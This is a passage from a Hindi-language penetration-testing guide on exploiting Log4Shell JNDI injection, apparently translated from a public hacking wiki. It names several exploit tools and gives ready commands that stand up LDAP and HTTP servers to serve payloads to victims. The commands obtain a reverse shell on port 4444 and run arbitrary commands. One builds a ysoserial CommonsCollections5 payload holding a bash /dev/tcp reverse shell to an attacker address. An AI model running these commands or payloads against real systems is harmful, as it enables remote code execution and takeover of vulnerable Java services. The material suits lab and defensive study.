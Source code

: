 **अन्य शोषण विकल्पों के लिए `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` की जांच करना न भूलें। इसके अलावा, यदि आपको इसकी आवश्यकता हो, तो आप LDAP और HTTP सर्वरों का पोर्ट बदल सकते हैं।**

### RCE - JNDI-Exploit-Kit <a href="#rce__jndiexploitkit_33" id="rce__jndiexploitkit_33"></a>

पिछले शोषण के समान, आप इस कमजोरियों का शोषण करने के लिए [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) का उपयोग करने की कोशिश कर सकते हैं।\
आप पीड़ित को भेजने के लिए URLs उत्पन्न कर सकते हैं:
```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```
_यह हमला एक कस्टम जनरेटेड जावा ऑब्जेक्ट का उपयोग करके उन प्रयोगशालाओं में काम करेगा जैसे कि **THM सोलर रूम**। हालाँकि, यह सामान्यतः काम नहीं करेगा (क्योंकि डिफ़ॉल्ट रूप से जावा को LDAP का उपयोग करके दूरस्थ कोडबेस लोड करने के लिए कॉन्फ़िगर नहीं किया गया है) मुझे लगता है क्योंकि यह मनमाने कोड को निष्पादित करने के लिए एक विश्वसनीय क्लास का दुरुपयोग नहीं कर रहा है।_

### RCE - JNDI-Injection-Exploit-Plus

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus) **काम करने योग्य JNDI लिंक** उत्पन्न करने और RMI सर्वर, LDAP सर्वर और HTTP सर्वर शुरू करके बैकग्राउंड सेवाएँ प्रदान करने के लिए एक और उपकरण है।\

### RCE - ysoserial & JNDI-Exploit-Kit

यह विकल्प वास्तव में **जावा संस्करणों पर हमला करने के लिए उपयोगी है जो केवल निर्दिष्ट क्लासेस पर भरोसा करते हैं और सभी पर नहीं**। इसलिए, **ysoserial** का उपयोग **विश्वसनीय क्लासेस के सीरियलाइजेशन** उत्पन्न करने के लिए किया जाएगा जो **मनमाने कोड को निष्पादित करने** के लिए गैजेट्स के रूप में उपयोग किया जा सकता है (_ysoserial द्वारा दुरुपयोग की गई विश्वसनीय क्लास को शिकार जावा प्रोग्राम द्वारा उपयोग किया जाना चाहिए ताकि यह हमला काम कर सके_)।

**ysoserial** या [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified) का उपयोग करके आप उस डीसिरियलाइजेशन हमले को बना सकते हैं जिसे JNDI द्वारा डाउनलोड किया जाएगा:
```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```
[**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) का उपयोग करें ताकि **JNDI लिंक** उत्पन्न किए जा सकें जहाँ एक्सप्लॉइट कमजोर मशीनों से कनेक्शन की प्रतीक्षा करेगा। आप **JNDI-Exploit-Kit** द्वारा स्वचालित रूप से उत्पन्न किए गए **विभिन्न एक्सप्लॉइट** या यहां तक कि अपने **स्वयं के डीसिरियलाइजेशन पेलोड** (जो आपने या ysoserial द्वारा उत्पन्न किया है) को सर्व कर सकते हैं।
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```